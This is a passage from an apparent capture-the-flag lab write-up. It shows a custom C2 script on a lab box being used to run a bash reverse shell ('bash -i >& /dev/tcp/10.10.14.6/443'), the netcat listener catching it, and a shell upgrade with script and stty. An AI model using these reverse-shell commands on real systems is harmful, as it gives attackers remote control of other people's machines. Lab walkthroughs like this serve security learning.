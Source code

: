     
    
    oxdf@hacky$ python3 c2.py 
    [+] Connection from 10.10.10.140
    [*] Session ID: b'56520806-f755-4571-93f1-7e070b81e374'
    [*] XOR key: J
    cmd:uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Reverse Shell

I’ll test changing `id` to a bash reverse shell in the script:

    
    
        cmd = b"bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"
    

I’ll save that and send it, and run it. On clicking Send in Repeater, there’s
a the connection:

    
    
    oxdf@hacky$ python3 c2.py 
    [+] Connection from 10.10.10.140
    [*] Session ID: b'9441aaf0-856a-46a0-a9ee-8c3180e4fc3d'
    [*] XOR key: Q
    

And then a connection at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.140.
    Ncat: Connection from 10.10.10.140:45002.
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@wordpress:/var/www/html$
    

No Python on the box, but `script` works for a shell upgrade:

    
    
    www-data@wordpress:/var/www/html$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@wordpress:/var/www/html$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@wordpress:/var/www/html$
    

### Script
